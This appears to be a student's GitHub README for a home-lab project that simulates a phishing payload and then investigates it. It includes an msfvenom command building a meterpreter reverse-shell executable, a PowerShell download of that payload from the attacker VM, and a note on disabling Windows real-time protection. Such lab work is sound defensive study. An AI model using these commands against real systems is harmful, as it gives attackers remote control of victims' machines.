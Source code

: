 # Phishing-Incident-Response-Project

In this project, I wanted to simulate a phishing payload in a windows environment and capture the activity to perform an incident response investigation with tools like Wireshark, Windows Event Viewer, and Volatility.

# Lab Environment
| Machine    | OS           | IP Address     | Purpose                            |
| ---------- | ------------ | -------------- | ---------------------------------- |
| Kali Linux | Debian-based | 192.168.56.101 | Attacker machine (payload hosting) |
| Windows 10 | Version 22H2 | 192.168.56.102 | Target machine                     |

Virtualization: Oracle VirtualBox
Networking: Host-Only Adapter
Tools: Metasploit, Wireshark, Event Viewer, Sysinternals ProcDump, Volatility 3

# Red Team - Phishing Attack
I started with working off of my Kali Linux VM and wrote a Phishing Payload with Metasploit:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f exe > phishing_payload.exe

I then hosted the payload via Apache, then downloaded the Payload on my Windows VM using:
Invoke-WebRequest -Uri http://192.168.56.101/phishing_payload.exe -OutFile phishing_payload.exe

I had to disable real-time protection in my Windows VM and use the powershell command to get the payload due to Windows's native malware protections. After that, I executed the payload and proceeded to collect information from my Kali Linux VM side.

# Blue Team - Incident Response
Using Wireshark, I was able to capture the traffic between my two VMs the second the payload was executed on my Windows VM. I was also able to go into Windows Defender Event Viewer and see alerts where malware was detected and actions were taken to remove the affected software. Next, I learned how to use ProcDump to capture the memory from the payload usingL:
procdump -ma 3234 phishing_payload_dump.dmp

